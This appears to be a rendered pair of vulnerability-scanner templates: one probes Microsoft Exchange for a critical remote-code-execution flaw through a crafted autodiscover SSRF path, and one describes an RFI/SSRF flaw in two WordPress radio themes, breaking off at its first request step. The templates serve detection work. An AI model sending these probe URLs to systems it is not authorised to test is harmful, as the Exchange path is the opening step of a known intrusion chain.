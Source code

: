 
# Exchange Server - Remote Code Execution

## Description

- Microsoft Exchange Server is vulnerable to a remote code execution vulnerability. This CVE ID is unique from CVE-2021-31196, CVE-2021-31206.

- severity - critical
- tags - cve,cve2021,ssrf,rce,exchange,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com
- {{BaseURL}}/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com

### Matchers

**Type - word**

- part - body
- condition - or
- words
  1. Microsoft.Exchange.Clients.Owa2.Server.Core.OwaADUserNotFoundException
  2. Exchange MAPI/HTTP Connectivity Endpoint

---

# Onair2 \< 3.9.9.2 & KenthaRadio \< 2.0.2 - Remote File Inclusion/Server-Side Request Forgery

## Description

- Onair2 \< 3.9.9.2 and KenthaRadio \< 2.0.2 have exposed proxy functionality to unauthenticated users. Sending requests to this proxy functionality will have the web server fetch and display the content from any URI, allowing remote file inclusion and server-side request forgery.
- severity - critical
- tags - wordpress,lfi,ssrf,oast,wpscan,cve,cve2021

## Requests

### Step - 1
